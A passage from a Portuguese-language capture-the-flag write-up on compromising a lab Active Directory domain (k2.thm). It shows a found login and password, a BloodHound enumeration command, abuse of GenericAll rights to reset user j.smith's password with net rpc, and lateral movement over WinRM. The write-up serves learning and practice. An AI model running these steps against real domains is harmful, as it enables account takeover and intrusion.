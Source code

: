 > [!Credencial do James]
> 2025/05/31 11:50:45 > [+] VALID LOGIN: [j.bold@k2.thm](mailto:r.bud@k2.thm):#8rockyou

#### 2.2.1 `BloodHound`: Mapeando o AD

`python3 bloodhound.py -u j.bold -p '#8rockyou' -d k2.thm -v --zip -c All -dc K2Server.k2.thm -ns 10.10.173.111`

Observamos que o usuário `j.bold` é membro do grupo `IT Staff 1`, o qual possui controle total (`GenericAll`) sobre o usuário `j.smith`. Isso implica que `j.bold`, por herança de permissões, pode exercer controle completo sobre `j.smith`, incluindo ações como alteração de senha, modificação de atributos e associação a outros grupos.

![](attachment/a76405d460e5815c9080d01ecbe8b94c.png)

Com essa informação valiosa, podemos alterar a senha do usuário `j.smith` e, consequentemente, obter acesso à sua conta.

`net rpc password "j.smith" "password123@" -U "k2.thm"/"j.bold"%"#8rockyou" -S 10.10.173.111`

### 2.3 Movimentação Lateral: Acessando o usuário `j.smith`

Após a alteração da senha, o acesso ao usuário `j.smith` foi obtido por meio do serviço WinRM (Windows Remote Management), permitindo interação remota com o sistema.

![](attachment/df13ece8b8b334f44be129dd080e5209.png)
